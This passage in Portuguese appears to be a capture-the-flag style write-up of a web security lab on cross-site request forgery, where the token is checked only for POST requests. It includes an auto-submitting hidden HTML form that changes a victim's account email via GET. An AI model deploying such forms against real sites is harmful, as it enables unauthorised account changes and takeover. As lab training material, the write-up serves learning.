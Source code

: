 Através dessa requisição, podemos concluir que o back-end não está verificando o método de envio da requisição, e que o token é verificado apenas quando o método de envio é **"POST"**.

Com essa informação, podemos criar um script que envie a requisição para o back-end, e que o método de envio seja **"GET"**:

```html	

    <form method="GET" action="https://0ac400d6041eae65c06807fa00250023.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.com">
    </form>
    <script>
            document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"GET"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](token_request_server.png)

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](token_request_concluido.png)

---